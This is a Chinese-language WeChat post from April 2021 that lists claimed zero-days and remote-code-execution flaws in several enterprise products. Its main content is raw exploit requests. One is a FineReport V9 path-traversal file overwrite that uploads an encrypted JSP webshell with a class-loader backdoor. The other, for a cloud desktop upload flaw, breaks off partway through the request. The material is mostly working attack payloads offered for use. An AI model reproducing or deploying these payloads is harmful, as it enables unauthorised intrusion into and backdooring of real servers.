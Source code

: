 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gLzl3y2Qz6TKykj_v6O4Tg)

2021.4.8 情报共享 第一批  
   
exchange、致远、天眼、shiro 存在 0day  
金蝶 K3Cloud 命令执行 全版本 前台 默认配置  
和信创天云桌面系统命令执行，文件上传 全版本 前台 默认配置  
用友 U8Cloud 命令执行  
h3c 计算管理平台任意账户添加 2016 年版  
红帆 OA 任意文件写入漏洞  
启明星辰天清汉马 USG 防火墙存在逻辑缺陷漏洞（CVE 已有）  
帆软系统疑似存在 0day，被 RCE。

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamgKm5iaZl5Rahgic4bgKib0g6xia9EOFQqISoRG2q1EFzNlAcKXhu0oMUnw/640?wx_fmt=png)

**帆软 V9getshell FineReport V9** 

注意: 这个漏洞是任意文件覆盖，上传 JSP 马，需要找已存在的 jsp 文件进行覆盖 Tomcat 启动帆软后默认存在的 JSP 文件: 比如：/tomcat-7.0.96/webapps/ROOT/index.jsp 覆盖 Tomcat 自带 ROOT 目录下的 index.jsp:

```
POST  /WebReport/ReportServer?  
op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update  .jsp  HTTP/1.1
Host:  192.168.169.138:8080
User-Agent:  Mozilla/5.0  (Windows  NT  10.0;  Win64;  x64)  AppleWebKit/537.36  (KHTML,  like  Gecko)  
Chrome/81.0.4044.92  Safari/537.36
Connection:  close
Accept-Au:  0c42b2f264071be0507acea1876c74
Content-Type:  text/xml;charset=UTF-8
Content-Length:  675 
{"__CONTENT__":"<%@page  import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class  U  extends  
ClassLoader{U(ClassLoader  c){super(c);}public  Class  g(byte  []b){return  
super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null)  {String  
k=(\"\"+UUID.randomUUID()).replace(\"-
\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher  
c=Cipher.getInstance(\"AES\");c.init(2,new  
SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new  
U(this.getClass().getClassLoader()).g(c.doFinal(new  
sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta  
nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam1jpGnlyfKibHI2Jq5OE6aa3lEPRPjlPSP401vZFAvYlqnwuv3eSiaycQ/640?wx_fmt=png)

**和信创天云桌面命令执行**

```
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Referer: x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 164

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; 
Content-Type: image/avif

```